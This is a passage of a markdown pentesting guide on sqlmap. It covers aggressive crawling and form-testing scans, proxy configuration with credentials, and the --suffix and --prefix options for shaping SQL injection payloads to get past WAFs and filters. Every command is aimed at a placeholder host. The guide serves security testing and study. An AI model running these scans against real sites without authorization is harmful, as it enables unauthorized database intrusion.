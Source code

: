 ```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
```

* `--batch` = Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
* `--crawl` = How deep you want to crawl a site
* `--forms` = Parse and test forms

## Proxy Configuration For SQLmap

To run SQLmap with a proxy, you can use the `--proxy` option followed by the proxy URL. SQLmap supports various types of proxies such as HTTP, HTTPS, SOCKS4, and SOCKS5.

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
sqlmap -u "http://www.target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" --proxy-cred="user:pass"
```

* HTTP Proxy:

    ```ps1
    --proxy="http://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="http://user:pass@127.0.0.1:8080"
    ```

* SOCKS Proxy:

    ```ps1
    --proxy="socks4://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="socks4://user:pass@127.0.0.1:1080"
    ```

* SOCKS5 Proxy:

    ```ps1
    --proxy="socks5://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="socks5://user:pass@127.0.0.1:1080"
    ```

## Injection Tampering

In SQLmap, tampering can help you adjust the injection in specific ways required to bypass web application firewalls (WAFs) or custom sanitization mechanisms. SQLmap provides various options and techniques to tamper with the payloads being used for SQL injection.

### Suffix And Prefix

The `--suffix` and `--prefix` options allow you to specify additional strings that should be appended or prepended to the payloads generated by SQLMap. These options can be useful when the target application requires specific formatting or when you need to bypass certain filters or protections.

```powershell
sqlmap -u "http://example.com/?id=1"  -p id --suffix="-- "
```

